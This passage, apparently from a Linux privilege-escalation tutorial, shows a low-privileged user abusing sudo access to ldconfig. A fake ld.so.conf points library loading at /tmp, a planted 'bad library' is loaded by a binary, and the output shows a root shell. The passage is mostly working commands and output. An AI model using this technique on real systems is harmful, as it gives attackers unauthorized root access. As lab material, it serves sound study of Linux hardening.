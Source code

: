 ### Alternative ld.so.conf

We create our fake **ld.so.conf**:

```bash
low@ubuntu:~/so-files/evil$ cd /tmp
low@ubuntu:/tmp$ echo "include /tmp/conf/*" > /tmp/fake.ld.so.conf
```

Then, we add a configuration file to the location indicated by **fake.ld.so.conf**:

```bash
low@ubuntu:/tmp$ mkdir conf
low@ubuntu:/tmp$ echo "/tmp" > conf/evil.conf
```

Finally, we execute `ldconfig` with the -f option:

```bash
low@ubuntu:/tmp$ sudo ldconfig -f fake.ld.so.conf
```

Now verify that the shared object that is being loaded is the malicious one and execute the binary (myexec):

```bash
low@ubuntu:/tmp$ ldd /usr/bin/myexec
	linux-vdso.so.1 (0x00007ffd872a4000)
	libcustom.so => /tmp/libcustom.so (0x00007f9a11ce3000)
	libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007f9a11af1000)
	/lib64/ld-linux-x86-64.so.2 (0x00007f9a11cfe000)

low@ubuntu:/tmp$ /usr/bin/myexec
Message from myexec.c!
I'm the bad library!
I'm trying to spawn a root shell...
Check your shell!
root@ubuntu:/tmp# id
uid=0(root) gid=0(root) groups=0(root),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),120(lpadmin),132(lxd),133(sambashare),1000(low)
root@ubuntu:/tmp# whoami
root
root@ubuntu:/tmp# 
```

We are able to escalate privileges, let's exit out of the root shell:

```bash
root@ubuntu:/tmp# exit
```

Now remove everything:

```bash
low@ubuntu:/tmp$ rm libcustom.so 
low@ubuntu:/tmp$ rm fake.ld.so.conf 
low@ubuntu:/tmp$ sudo rm -rf conf
```
